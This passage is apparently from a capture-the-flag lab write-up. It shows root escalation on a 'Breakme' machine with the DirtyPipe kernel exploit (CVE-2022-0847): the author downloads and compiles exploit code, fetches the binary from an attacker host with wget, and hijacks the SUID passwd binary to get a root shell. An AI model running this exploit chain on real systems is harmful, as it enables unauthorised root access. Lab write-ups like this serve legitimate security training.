 Given we know that DirtyPipe is possible

```bash
[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: probable
   Tags: ubuntu=(20.04|21.04),[ debian=11 ]
   Download URL: https://haxx.in/files/dirtypipez.c
```

Locally I looked to see if DirtyPipe was installed locally but it was not so I looked online and grabbed the source code for `exploit-2.c`: 


```bash
root@ip-10-10-146-120:~# locate dirtypipe
/opt/metasploit-framework/embedded/framework/documentation/modules/exploit/linux/local/cve_2022_0847_dirtypipe.md
/opt/metasploit-framework/embedded/framework/modules/exploits/linux/local/cve_2022_0847_dirtypipe.rb
```


Compiled as so: 

```bash
root@ip-10-10-146-120:~# nano exploit-2.c
root@ip-10-10-146-120:~# gcc -o dirtypipe exploit-2.c
root@ip-10-10-146-120:~# 
```

I got root and found the 1st flag.

```bash
www-data@Breakme:/home/john$ wget http://10.10.146.120:8000/dirtypipe -O /tmp/dirtypipe
<tp://10.10.146.120:8000/dirtypipe -O /tmp/dirtypipe
--2024-09-21 10:29:08--  http://10.10.146.120:8000/dirtypipe
Connecting to 10.10.146.120:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13736 (13K) [application/octet-stream]
Saving to: \u2018/tmp/dirtypipe\u2019

/tmp/dirtypipe      100%[===================>]  13.41K  --.-KB/s    in 0s      

2024-09-21 10:29:08 (256 MB/s) - \u2018/tmp/dirtypipe\u2019 saved [13736/13736]

www-data@Breakme:/home/john$ chmod +x /tmp/dirtypipe
chmod +x /tmp/dirtypipe
www-data@Breakme:/home/john$ /tmp/dirtypipe
/tmp/dirtypipe
Usage: /tmp/dirtypipe SUID
www-data@Breakme:/home/john$ /tmp/dirtypipe /usr/bin/passwd
/tmp/dirtypipe /usr/bin/passwd
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# ls
ls
internal  user1.txt
# cat user.txt
cat user.txt
cat: user.txt: No such file or directory
# cat user1.txt
cat user1.txt
ANSWER_HERE
# whoami
whoami
```